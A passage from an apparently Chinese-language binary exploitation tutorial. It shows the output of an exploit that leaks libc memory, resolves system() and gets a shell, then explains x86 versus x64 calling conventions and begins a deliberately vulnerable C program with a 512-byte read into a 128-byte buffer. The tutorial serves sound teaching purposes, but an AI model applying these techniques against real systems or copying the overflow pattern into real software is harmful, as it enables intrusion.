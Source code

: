``` python
0xf7e02010 => 03000300
0xf7fb4004 => b031fdf7
0xf7fd31c0 => 08dcfff7
0xf7ffdc18 => 18d9fff7
0xf7e02180 => 474e5500
0xf7e02184 => dd5192a7
0xf7e02188 => 69e33ed6
0xf7e0218c => ca68a6ab
0xf7e02190 => 5740ff9e
0xf7e02194 => 8ec678a7
[*] Trying lookup based on Build ID: dd5192a769e33ed6ca68a6ab5740ff9e8ec678a7
[*] Skipping unavialable libc dd5192a769e33ed6ca68a6ab5740ff9e8ec678a7
[*] .gnu.hash/.hash, .strtab and .symtab offsets
[*] Found DT_GNU_HASH at 0xf7fb3de0
0xf7fb3de4 => b821e0f7
[*] Found DT_STRTAB at 0xf7fb3de8
0xf7fb3dec => 18f6e0f7
[*] Found DT_SYMTAB at 0xf7fb3df0
0xf7fb3df4 => 285fe0f7
[*] .gnu.hash parms
0xf7e021b8 => f3030000
0xf7e021bc => 0a000000
0xf7e021c0 => 00020000
[*] hash chain index
0xf7e03390 => b1050000
[*] hash chain
0xf7e05030 => 8ae4ee1c
0xf7e0ba38 => 48310000
0xf7e12760 => 73797374
0xf7e12764 => 656d0074
0xf7e0ba3c => a0ad0300
system_addr= 0xf7e3cda0

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
buffer
```

### 0x02 linux_64与linux_86的区别

linux_64与linux_86的区别主要有两点：首先是`内存地址`的范围由`32位变成了64位`。但是可以使用的内存地址`不能大于0x00007fffffffffff`，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的`前六个参数`依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。

我们还是拿实际程序做例子进行讲解,level3.c内容如下：

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
```
